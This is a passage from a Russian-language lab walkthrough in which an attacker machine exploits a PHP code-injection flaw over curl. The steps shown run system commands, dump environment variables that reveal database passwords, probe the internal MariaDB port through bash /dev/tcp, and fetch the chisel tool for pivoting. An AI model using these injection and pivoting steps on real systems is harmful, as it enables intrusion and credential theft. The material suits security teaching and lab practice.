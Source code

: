 Проверим от имени какого пользователя запущено web-приложение, для этого
выполним команду `id`:
```
vagrant@hacker:~$ curl -G 192.168.56.6 --data-urlencode "code=system('id');"
  <h1> Hello world!</h1>
  uid=1000(web) gid=1000(web) groups=1000(web)
  <br>
```

Теперь получим список переменных окружения:
```
vagrant@hacker:~$ curl -G 192.168.56.6 --data-urlencode "code=system('env');"
  <h1> Hello world!</h1>
  ...
  MARIADB_DATABASE=production
  MARIADB_HOSTNAME=mariadb
  MARIADB_ROOT_PASSWORD=strongpassword
  MARIADB_PASSWORD=verystrongpassword
  MARIADB_USER=prod
  ...
  <br>
```

Как видим из листинга, в переменных окружения имеется конфигурация соединения
с БД сервером. Да же есть hostname этого сервера `MARIADB_HOSTNAME`. Предположительно
запущенного то же в докере на том же хосте. Проверим имеется ли сетевой доступ 
до этого хоста:
```
vagrant@hacker:~$ curl -G 192.168.56.6 --data-urlencode "code=system('timeout 1 bash -c \'cat < /dev/null > /dev/tcp/mariadb/3306\' && echo Open || echo Closed');"
  <h1> Hello world!</h1>
  Open
  <br>
```

Что бы не мучиться с пробросом DNS, определим IP адрес сервера mariadb:
```
vagrant@hacker:~$ curl -G 192.168.56.6 --data-urlencode "code=system('getent hosts mariadb');"
  <h1> Hello world!</h1>
  172.18.0.2      mariadb
  <br>
```

Как мы видим у web-приложения есть сетевая связанность с сервером БД, что 
логично. Так в docker-контейнере нет приложения для работы с сервером БД, а
запрограммировать приложение на PHP для того что бы сделать dump базы данных
мне лень. Воспользуемся техникой `pivoting` для получения доступа к БД. 
Воспользуемся приложением [chisel](https://github.com/jpillora/chisel):
```
vagrant@hacker:~$ curl -L https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_linux_amd64.gz --output chisel.gz
vagrant@hacker:~$ gzip -d chisel.gz
vagrant@hacker:~$ chmod +x chisel
```

